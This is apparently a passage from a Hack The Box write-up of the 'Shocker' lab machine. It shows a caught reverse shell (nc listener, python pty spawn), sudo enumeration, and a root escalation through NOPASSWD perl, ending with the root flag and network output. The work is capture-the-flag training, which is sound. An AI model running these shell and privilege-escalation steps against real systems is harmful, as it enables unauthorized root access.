 Reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Shocker/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.56] 52156
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
python3 -c 'import pty; pty.spawn("/bin/bash")'
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

# Privilege Escalation

## Local enumeration

Enumerated sudo privileges:

```bash
shelly@Shocker:/home/shelly$ whoami
shelly
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

## perl privilege escalation

[perl | GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# whoami && hostname && cat /root/root.txt && ifconfig -a
root
Shocker
2c8adfef39e116a621c30e5821bc1a0a
ens33     Link encap:Ethernet  HWaddr 00:50:56:b9:36:c8
          inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:36c8/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:36c8/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:609642 errors:0 dropped:61 overruns:0 frame:0
          TX packets:599371 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:87129953 (87.1 MB)  TX bytes:237046382 (237.0 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:33152 errors:0 dropped:0 overruns:0 frame:0
          TX packets:33152 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:2455152 (2.4 MB)  TX bytes:2455152 (2.4 MB)
```
